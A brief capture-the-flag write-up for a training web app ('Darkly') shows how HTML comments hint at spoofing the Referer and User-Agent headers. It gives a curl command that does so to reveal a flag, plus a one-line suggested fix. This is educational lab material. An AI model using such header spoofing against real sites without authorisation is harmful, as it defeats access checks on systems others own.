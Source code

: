 # Domain Spoofing

## Vulnerability

At the very bottom of the page, there is a clickable `© BornToSec` link redirecting to: [`index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f`](http://darkly/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f).

Looking at the page code, we can see a few comment like:
```html
<!--
You must come from : "https://www.nsa.gov/".
-->

<!--
[...]    Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```

`You must come from` means spoofing the [HTTP Referer Header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer).
And `Let's use this browser` means spoofing the [HTTP User Agent Header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent).

So by doing the cURL command:
```bash
curl \
    -H 'Referer: https://www.nsa.gov/' \
    -H 'User-Agent: ft_bornToSec' \
    'http://darkly/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f'
```

We can see the flag:
```html
...
<h2> The flag is : ...</h2>
...
```

## Possible Fix

- Do not include the comments?
